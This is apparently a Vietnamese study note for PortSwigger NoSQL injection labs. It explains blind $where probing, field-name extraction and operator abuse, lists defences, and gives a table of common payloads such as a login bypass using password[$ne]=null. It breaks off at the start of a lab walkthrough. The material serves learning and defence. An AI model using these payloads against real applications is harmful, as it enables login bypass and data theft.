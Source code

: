 #### 4. **Blind injection (khai thác mù)**

Dò từng ký tự giá trị:

```
"$where":"this.password[0] == 'a'"
```

#### 5. **Extract field name (PortSwigger):**

```
"$where":"Object.keys(this)[0].match(/^p.*/)"
```

#### 6. **Khác:**

- Sử dụng `$gt`, `$lt`, `$in` để thay đổi logic.
- Sử dụng `eval()` trong JavaScript để chạy payload.



**Cách phòng tránh:** 

-  Không nhúng dữ liệu đầu vào trực tiếp vào truy vấn JSON.
- Sử dụng thư viện/ORM an toàn, query builder → thay vì tự nối chuỗi.
- Luôn validate & sanitize dữ liệu người dùng.
- Hạn chế tính năng nguy hiểm như `$where`, `eval()`.
- Principle of Least Privilege: tài khoản DB chỉ có quyền cần thiết.
- Log & giám sát truy vấn bất thường.



**Common Payload:**

| Mục đích              | Payload                                       |
| --------------------- | --------------------------------------------- |
| Bypass login          | username=admin&password[$ne]=null             |
| Regex matching        | username[$regex]=^adm                         |
| Always true           | username=admin'                               |
| Always false          | username=admin' && '1'=='2                    |
| Extract field name    | "$where":"Object.keys(this)[0].match(/^p.*/)" |
| Extract field value   | "$where":"this.secret[0] == 'a'"              |
| Bypass password check | password[$ne]=null                            |

## Apprentice (2 labs):

### Lab 1: Detecting NoSQL injection

Lab des:

Khai thác lỗi NoSQL injection để hiển thị sản phẩm chưa phát hành.

Steps: 
